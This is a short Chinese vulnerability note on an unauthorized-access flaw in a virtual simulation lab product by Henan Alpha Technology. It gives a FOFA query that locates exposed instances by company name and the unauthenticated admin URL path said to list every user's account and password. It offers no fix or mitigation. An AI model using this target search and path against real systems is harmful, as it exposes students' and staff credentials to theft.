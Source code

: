 # 阿尔法科技 虚拟仿真实验室 未授权访问漏洞

## 漏洞描述

阿尔法科技 虚拟仿真实验室 存在未授权访问漏洞，通过访问构造的Url可以获取敏感信息

## 漏洞影响

```
虚拟仿真实验室
```

## FOFA

```
body="河南阿尔法科技有限公司"
```

## 漏洞复现

未授权的Url为

```plain
/admin/student/studentlist.html?page=1
```

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202101929331.png)



成功获取所有用户的账号密码信息

## 参考文章

http://www.0dayhack.net/index.php/1702/